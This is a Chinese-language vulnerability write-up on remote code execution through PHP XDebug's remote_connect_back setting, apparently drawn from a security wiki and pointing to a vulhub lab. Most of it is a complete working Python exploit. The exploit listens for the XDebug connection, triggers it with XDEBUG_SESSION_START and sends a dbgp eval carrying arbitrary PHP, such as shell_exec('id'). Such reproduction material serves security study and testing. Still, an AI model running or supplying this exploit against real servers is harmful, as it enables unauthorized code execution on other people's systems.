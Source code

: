 Php XDebug 远程调试漏洞
=======================

一、漏洞简介
------------

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

    xdebug.remote_connect_back = 1
    xdebug.remote_enable = 1

这个配置下，我们访问`http://www.0-sec.org/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

二、漏洞影响
------------

三、复现过程
------------

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个漏洞复现脚本，指定目标web地址、待执行的php代码即可：

    # 要求用python3并安装requests库
    python3 exp.py -t http://www.0-sec.org:8080/index.php -c 'shell_exec('id');'
    #!/usr/bin/env python3
    import re
    import sys
    import time
    import requests
    import argparse
    import socket
    import base64
    import binascii
    from concurrent.futures import ThreadPoolExecutor


    pool = ThreadPoolExecutor(1)
    session = requests.session()
    session.headers = {
        'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
    }

    def recv_xml(sock):
        blocks = []
        data = b''
        while True:
            try:
                data = data + sock.recv(1024)
            except socket.error as e:
                break
            if not data:
                break

            while data:
                eop = data.find(b'\x00')
                if eop < 0:
                    break
                blocks.append(data[:eop])
                data = data[eop+1:]

            if len(blocks) >= 4:
                break
        
        return blocks[3]


    def trigger(url):
        time.sleep(2)
        try:
            session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
        except:
            pass


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
        parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
        parser.add_argument('-t', '--target', required=True, help='target url.')
        parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
        args = parser.parse_args()
        
        ip_port = ('0.0.0.0', args.listen)
        sk = socket.socket()
        sk.settimeout(10)
        sk.bind(ip_port)
        sk.listen(5)

        pool.submit(trigger, args.target)
        conn, addr = sk.accept()
        conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

        data = recv_xml(conn)
        print('[+] Recieve data: ' + data.decode())
        g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
        if not g:
            print('[-] No result...')
            sys.exit(0)

        data = g.group(1)

        try:
            print('[+] Result: ' + base64.b64decode(data).decode())
        except binascii.Error:
            print('[-] May be not string result...')

![1
1.png](./resource/PhpXDebug远程调试漏洞/media/rId24.png)

**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

参考链接
--------

> https://vulhub.org/\#/environments/php/xdebug-rce/
